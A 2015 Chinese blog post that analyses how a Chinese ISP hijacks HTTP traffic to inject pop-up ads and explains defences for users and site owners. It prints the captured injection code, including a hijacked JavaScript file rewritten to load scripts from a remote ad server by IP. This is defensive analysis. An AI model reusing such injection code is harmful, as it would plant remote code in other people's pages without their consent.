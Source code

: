 ```yaml
---
layout: post
title:  "中国电信劫持HTTP流量强插广告"
date:   2015-04-15 22:50:35
categories: Web
---
```


## 现象

家里装的宽带是浙江电信的，在平时用浏览器访问网页时，网页右下角经常弹出浮动广告。常见的广告是这个样子的，很违和吧？

![弹出广告截图](/images/20150415/01.png)

该广告有几个特点：

* 不管是中国还是外国网站，都有可能弹广告。
* 有些知名网站似乎没有弹过广告，比如新浪微博、Stack Overflow。
* 对某一个网站，只在每天第一次访问时弹广告，显示过一次之后，再刷新网页就不会出现了。第二天访问时还可能弹广告。
* 所有的HTTPS站都没有广告。

## 原理分析

### 广告是谁加的

一开始看过几次广告之后，以为是被访问网站自己加的广告联盟之类的代码，第一反应当然是用浏览器的去广告插件屏蔽。通过Chrome查看DOM，发现广告的嵌入代码如下，

```HTML
<script src="http://116.252.178.232:9991/ad.0.js?v=3.9411&amp;sp=9999&amp;ty=dpc&amp;sda_man=XFpdU1RJWFdZXlE=" type="text/javascript" id="bdstat"></script>
```

一般是出现在`</body>`之前，即HTML body的最后。服务器地址116.252.178.232属于广西电信。

当在几个国外网站上弹出了同样的中文广告后，我确定这不是网站自己加的广告代码。Google一下这个IP地址，普遍反映这是ISP劫持HTTP流量，插入的广告。

这种行为更准确的名称叫“[网络直投广告](http://baike.baidu.com/view/6261865.htm)”，百度百科是这样介绍的。

> 网络直投广告是基于中国电信宽带接入网，通过对用户上网行为的分析，在用户上网时、或正在上网的过程中，系统主动、定向、策略性、个性化的向用户推送广告宣传信息。并可以根据用户当前浏览的网站类型，匹配对应的行业关键字，根据行业关键字向用户推送动画、声音、视频、游戏等多媒体交互式广告内容。关键字分类：电脑、通讯、汽车、财经、医药、房产、旅游、教育、人才、美容、电影、游戏、数码等。

所以，这段代码是ISP强行插入的网络直投广告。由于用户访问所有网络都要经过ISP，ISP就有机会给任意网站加广告，把整个网络作为工具为自己牟利。搜索发现不光是电信，联通也有类似行径。某年315还曝光过，之后各地ISP有所收敛，但现在我家浙江电信还是每天都会弹。

### 如何加的广告

用浏览器访问刚才的广告嵌入代码，`http://116.252.178.237:9991/ad.0.js`内容经过格式化后如下，

```Javascript
var bcdata_sp = "";
var sda_man = "";
var bcdata_src = "0";
(function () {
    var a = function (h, f) {
        try {
            var d = document.createElement("span");
            d.innerHTML = h;
            api.writeO(d, f)
        } catch (g) {
            document.write(h)
        }
    };
    var c = function (d, f) {
        if (f) {
            f.appendChild(d);
            f.parentNode.appendChild(d)
        } else {
            var g = f || document.all || document.getElementsByTagName("*");
            var f = g[g.length - 1]
        }
        f.parentNode.appendChild(d)
    };
    var b = document.createElement("script");
    b.type = "text/javascript";
    b.src = "http://116.252.178.237:9991/main.js?ver=v48";
    c(b)
})();
```

这段引导代码在DOM上添加另一个script节点，内容为`http://116.252.178.237:9991/main.js`。`main.js`是弹出广告真正的创建者。

那么`ad.0.js`是何时插入的呢？在不同的网站上，`ad.0.js`节点出现的位置不固定，不一定总在`</body>`之前。继续用Chrome的Network工具查看每个请求的返回数据，发现网页HTML是正常的，并不包含`ad.0.js`节点。推测是某个JS被篡改了，执行的时候在DOM上又插入了广告引导代码节点。

逐个检查`.js`文件的请求，寻找包含“116.252.178.232”的文件。以某网站为例，发现`flowplayer.min.js`文件的内容不正常。该文件是网页上的视频播放器，托管在七牛CDN上。文件的URL是`http://***.qiniudn.com/static/player/flowplayer.min.js`，Chrome里显示返回的内容是这样的，

```Javascript
(function () {
    o = "http://***.qiniudn.com/static/player/flowplayer.min.js?";
    sh = "http://116.252.178.232:9991/ad.0.js?v=3.9411&sp=9999&ty=dpc&sda_man=XFpdU1RJWFdZXlE=";
    w = window;
    d = document;

    function ins(s, dm, id) {
        e = d.createElement("script");
        e.src = s;
        e.type = "text/javascript";
        id ? e.id = id : null;
        dm.appendChild(e);
    };
    p = d.scripts[d.scripts.length - 1].parentNode;
    ins(o, p);
    ds = function () {
        db = d.body;
        if (db && !document.getElementById("bdstat")) {
            if ((w.innerWidth || d.documentElement.clientWidth || db.clientWidth) > 1) {
                if (w.top == w.self) {
                    ins(sh, db, "bdstat");
                }
            }
        } else {
            setTimeout("ds()", 1500);
        }
    };
    ds();
})();
```

可以看到该文件的返回数据完全是被替换过的。这段代码首先在DOM上插入了另外一个`<script>`节点，用于重新加载真正的`flowplayer.min.js`文件。然后创建了广告引导代码节点。在Chrome中，看到`flowplayer.min.js`文件有两次请求，第二次返回的是正确的内容。

新插入的`<script>`位置在document最后一个script的父节点，由于改变了JS文件的执行顺序，所以理论上有可能影响被篡改的网页的正常功能。

关于这套广告系统具体如何选择篡改哪个JS请求，我没有进一步的调查。

### 其他劫持类型

我这里分析的只是浙江电信在目前阶段采用的插广告方法。网上能看到ISP采用的一些旧方法，包括DNS劫持、iframe劫持。

DNS劫持是，例如用户访问Google时，跳转到一个全是广告的页面。还有当访问一个无法解析的网址时，跳转到电信的网址导航站189so.cn，导航站当然是很赚钱的。

iframe劫持也是劫持HTTP流量，将被访问的网页整个包在一个iframe中加载，外面的伪造的页面插弹出广告。用户看到的效果跟本文开头的截图类似。

## 屏蔽方法

### 用户

作为普通用户，一般的建议是打电话给ISP投诉，把客服骂一顿，让ISP取消对你家账号的“特殊服务”。我没试过，也不想试，我得留着广告好看看ISP又采取了什么卑劣手段。

作为普通用户，还可以找个认识的程序员来帮助解决此事。

作为程序员，屏蔽这种广告不是难事。首先用浏览器开发者工具在找出广告引导代码的URL，如果是IP地址，就用路由器或防火墙软件封住该IP的访问；如果是域名，就修改hosts把该域名解析到127.0.0.1即可。

注意这样仅靠屏蔽IP/域名并不是真正的屏蔽，仍然有副作用。比如说网页会由于加载不到广告JS而一直处于转菊花状态，经过篡改的网页有可能功能不正常。前人给出了一些复杂的方法屏蔽广告，基本上都要自己搭代理服务器。我觉得太过复杂，不值得。在此列出几个参考方法：

* [Tomato解决电信广告劫持](http://maskv.com/technology/289.html)
* [如何对抗 ISP HTTP hijacking (阻止推送广告)](http://www.linuxsir.org/bbs/thread367305.html)
* [防治运营商HTTP劫持的终极技术手段](http://www.williamlong.info/archives/4181.html)

### 网站所有者

作为网站所有者，有没有办法彻底去除ISP强插到你网站上的广告呢？这样不管你的用户有没有屏蔽广告的能力，在访问网站时都不会看到恼人的广告。

第一个可行的办法是HTTPS化，HTTPS请求无法简单的伪造。目前由于网络安全的形势不好，很多网站都做了全站HTTPS化。虽然有一些开销，这毕竟是个最有效的办法。

目前ISP的做法是只劫持JS文件，那一个简便的方法是JS全部放到七牛CDN上，利用七牛提供的HTTPS服务，只把网页上的JS地址换成HTTPS。（该方法未经验证）

另一个可能的方法是在页面上增加JS代码，检测ISP插入的节点并删掉。这种方法的困难在于ISP插广告是分地区的，而且将来会升级的。作为网站所有者，只能针对已知的情况做针对处理，不一定总能有效。
